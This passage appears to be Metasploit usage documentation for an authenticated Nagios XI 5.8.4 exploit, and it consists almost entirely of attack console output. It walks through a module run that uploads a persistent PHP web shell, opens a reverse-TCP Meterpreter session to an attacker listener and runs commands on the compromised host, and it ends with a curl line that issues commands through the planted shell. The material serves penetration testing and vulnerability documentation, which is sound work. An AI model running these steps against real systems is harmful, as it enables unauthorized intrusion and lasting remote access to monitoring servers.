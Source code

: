 ```
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "nyjlVFXNgWehsWFs\n"
[*] Matching...
[*] A is input...
[+] Deleted /usr/local/nagiosxi/html/includes/components/highcharts/exporting-server/temp/OalF9GV4AC.php
[*] Command shell session 1 opened (10.0.0.3:4444 -> 10.0.0.6:44226 ) at 2022-02-05 17:56:49 -0800

whoami
www-data
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),135(Debian-snmp),1001(nagios),1002(nagcmd)
pwd
/usr/local/nagiosxi/html/includes/components/highcharts/exporting-server/temp
```

### Nagios XI 5.8.4 - Leave a web shell behind

```
msf6 > use exploit/linux/http/nagios_xi_autodiscovery_webshell
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set LHOST 10.0.0.3
LHOST => 10.0.0.3
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set PASSWORD labpass1
PASSWORD => labpass1
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set DELETE_WEBSHELL false
DELETE_WEBSHELL => false
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set WEBSHELL_NAME lobster.php
WEBSHELL_NAME => lobster.php
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > run

[*] Started reverse TCP handler on 10.0.0.3:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] The target appears to be vulnerable. Determined using the self-reported version: 5.8.4
[*] Attempting to grab a CSRF token from /nagiosxi/includes/components/autodiscovery/?mode=newjob
[*] Uploading webshell to /nagiosxi/includes/components/highcharts/exporting-server/temp/lobster.php
[*] Testing if web shell installation was successful
[+] Web shell installed at /nagiosxi/includes/components/highcharts/exporting-server/temp/lobster.php
[*] Executing Linux Dropper for linux/x86/meterpreter/reverse_tcp
[*] Sending stage (989032 bytes) to 10.0.0.6
[*] Command Stager progress - 100.00% done (700/700 bytes)
[*] Deleting autodiscovery job
[*] Meterpreter session 1 opened (10.0.0.3:4444 -> 10.0.0.6:44230 ) at 2022-02-05 18:07:14 -0800

meterpreter > quit
[*] Shutting down Meterpreter...

[*] 10.0.0.6 - Meterpreter session 1 closed.  Reason: User exit
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > exit
albinolobster@ubuntu:~/metasploit-framework$ curl --insecure https://10.0.0.6/nagiosxi/includes/components/highcharts/exporting-server/temp/lobster.php?cmd=id
```